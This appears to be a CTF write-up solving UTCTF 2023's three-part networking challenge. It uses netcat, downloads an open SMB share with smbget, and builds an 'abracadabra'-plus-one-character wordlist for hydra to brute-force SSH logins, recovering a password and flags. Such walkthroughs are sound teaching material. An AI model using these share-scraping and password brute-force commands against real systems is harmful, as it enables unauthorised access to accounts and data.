

# Part 1:
## Problem Description
There are some interesting ports open on betta.utctf.live, particularly port 8080. By Robert Hill (@Rob H on discord)

`betta.utctf.live:8080`

## Solution
For part 1, we simply netcat in and receive the flag: 
`nc betta.utctf.live 8080`

Response:
`Hi Wade! I am using socat to broadcat this message. Pretty nifty right? --jwalker utflag{meh-netcats-cooler}  `

# Part 2:
## Problem Description

Update: smb port has been moved to 8445 from 445 on networking-misc-p2
betta.utctf.live has other interesting ports. Lets look at 8445 this time. By Robert Hill (@Rob H on discord)
`betta.utctf.live:8445`

## Solution
When I did this problem originally, it wasn't specified that we had smb. However, after trying to netcat and into 445 and receiving no response, I looked it up and found "Port 445 is a traditional Microsoft networking port with tie-ins to the original NetBIOS service found in earlier versions of Windows OSes. Today, port 445 is used by **Microsoft Directory Services for Active Directory (AD) and for the Server Message Block (SMB) protocol over TCP/IP**."

So, we know we have smb running, and we need to access it and get a flag out somehow.
First, I try to connect using 'Wade' as my username, and hoping I could get in without a password somehow.
`smbclient //betta.utctf.live/WorkShares -U Wade`
The SMB server seemed to be configured without username or password at all, and I was able to get into \shares\\ just find. Unfortunately, I couldn't do much since I couldn't get 'cat' or 'file' to work, and I'm not familiar with the limited SMB server commands.

Luckily, since the SMB server is fully open to anyone, I just used
 `mkdir ~/utctf2023` 
 Followed by 
 `smbget -a -R smb://betta.utctf.live/WorkShares/ ~/utctf2023` 
 where the -R downloads folders recursively, and -a to force download even if the file exists.

Now that I had all the files on my local machine, I went browsing and eventually found this photo of someone's cat at 
`~/utctf2023/shares/OfficeFun/JaysCats/Meowfoy.jpg`
<div style="width: 300px;">
  
</div>
I also found `~/utctf2023/shares/IT/Itstuff/notetoIT`
which reads:
> I don't understand the fascination with the magic phrase "abracadabra", but too many people are using them as passwords. Crystal Ball, Wade Coldwater, Jay Walker, and Holly Wood all basically have the same password. Can you please reach out to them and get them to change thier passwords or at least get them append a special character?"
>
> Arty F.
>
> utflag\{out-of-c0ntrol-access\}

Ok, so that was a bit of work, but we finally have our second flag. On to part 3!

# Part 3:
## Problem Description

We've gathered a lot of information at this point, let get access through ssh. (ignore port 22, use 8822)
(Use of brute force is permitted for this problem, but please set the wait time in hydra so you don't overwhelm the server)
By Rob H (@Rob H on discord)
`betta.utctf.live:8822`

## Solution
So immediatly, `Use of brute force is permitted` tells me it'll probably be something involving hydra. (Again, the problem description gives it away now, but it didn't when I solved it originally)

Now before we jump on hydra and blast the server with rockyou.txt, lets use some common sense and review what we know so far:

- In problem one, we have a user named 'jwalker'
- In problem two we learn about users named: Crystal Ball, Wade Coldwater, Jay Walker, and Holly Wood. These users could possibly be using 'abracadabra' followed by a special character as their password
- Arty F. might also be a notable figure, not sure
- Random lore: Wade's twitter account from previous years, the cat image, the company logo, etc. It's not relevant here.

Ok, so if one of the passwords is actually just a variation of 'abracadabra' it should be a super easy thing to crack. Lets create a wordlist really fast:
```
abracadabra!
abracadabra"
abracadabra#
abracadabra$
abracadabra%
abracadabra&
abracadabra'
abracadabra(
abracadabra)
abracadabra*
abracadabra+
abracadabra,
abracadabra-
abracadabra.
abracadabra/
abracadabra0
abracadabra1
abracadabra2
abracadabra3
abracadabra4
abracadabra5
abracadabra6
abracadabra7
abracadabra8
abracadabra9
abracadabra:
abracadabra;
abracadabra<
abracadabra=
abracadabra>
abracadabra?
abracadabra@
abracadabraA
abracadabraB
abracadabraC
abracadabraD
abracadabraE
abracadabraF
abracadabraG
abracadabraH
abracadabraI
abracadabraJ
abracadabraK
abracadabraL
abracadabraM
abracadabraN
abracadabraO
abracadabraP
abracadabraQ
abracadabraR
abracadabraS
abracadabraT
abracadabraU
abracadabraV
abracadabraW
abracadabraX
abracadabraY
abracadabraZ
abracadabra[
abracadabra\
abracadabra]
abracadabra^
abracadabra_
abracadabra`
abracadabraa
abracadabrab
abracadabrac
abracadabrad
abracadabrae
abracadabraf
abracadabrag
abracadabrah
abracadabrai
abracadabraj
abracadabrak
abracadabral
abracadabram
abracadabran
abracadabrao
abracadabrap
abracadabraq
abracadabrar
abracadabras
abracadabrat
abracadabrau
abracadabrav
abracadabraw
abracadabrax
abracadabray
abracadabraz
abracadabra{
abracadabra|
abracadabra}
abracadabra~
```

Sorry for forcing you to scroll to the bottom of that. Anyways, hopefully one of these are the correct password for one of the accounts. All we need to do know is get hydra working at it!

I started by running:
`hydra -t 4 -W 0.1 -s 8822 -l 'Wade' -P /usr/share/wordlists/abracadabra.txt betta.utctf.live ssh`

*You can skip this if you already understand Hydra:*
-t 4 limits threads to 4
-W 0.1 makes sure to wait 0.1 seconds between attempts
-s 8822 means to use port 8822
-l 'Wade' specifies login name as 'Wade'
-P /usr/share/wordlists/abracadabra.txt specifies the wordlist to use

Unfortunately, after running with usernames like Wade, Wade Coldwater, wadecoldwater, HollyWood, etc. I couldn't get anything. 

Remember how I said lets use common sense to review what we had earlier? Well, I didn't use enough obviously, as I hadn't paid attention to username formats. Since in the first problem, there was a user named 'jwalker' what if we use the name 'wcoldwater'?

Lets try it: `hydra -t 4 -W 0.1 -s 8822 -l wcoldwater -P /usr/share/wordlists/abracadabra.txt betta.utctf.live ssh` 

`[8822][ssh] host: betta.utctf.live   login: wcoldwater   password: abracadabra$`

Nice! now we can just ssh in: `ssh wcoldwater@betta.utctf.live -p 8822` and use `abracadabra$` as our password:

```
utctf{cust0m3d-lsts-rule!} well done!
327f93bdc02d:~$ ls
note.txt
327f93bdc02d:~$ cat note.txt
Note to self: Get better at this security stuff.
327f93bdc02d:~$ 

```

We have a flag, and a little easter egg!

## Conclusion

I really enjoyed this awesome challenge series from UTCTF 2023! Big thanks to Robert Hill for writing these challenges, and to ISSS for hosting an amazing CTF. This was my second year doing it and I always look forward to UTCTF.